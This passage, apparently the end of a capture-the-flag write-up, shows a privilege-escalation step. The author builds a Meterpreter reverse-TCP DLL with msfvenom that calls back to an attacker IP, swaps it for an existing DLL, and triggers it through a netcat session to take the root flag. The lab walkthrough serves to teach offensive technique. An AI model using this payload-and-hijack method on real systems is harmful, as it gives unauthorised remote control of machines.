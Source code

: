 - Sweet, we can re-write this file as `devdoc`. Let's create our reverse shell using `msfevnom`:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.112 LPORT=5555 -f dll -o externalupload.dll
```

- Let's rename the old one and upload ours instead:

![img_17.png](img/img_17.png)

- Finally, going back to our proxychains netcat (`nc 127.0.0.1 10100`) and enter `upload pwn` to trigger the payload:

![img_18.png](img/img_18.png)

- Root flag:

![img_19.png](img/img_19.png)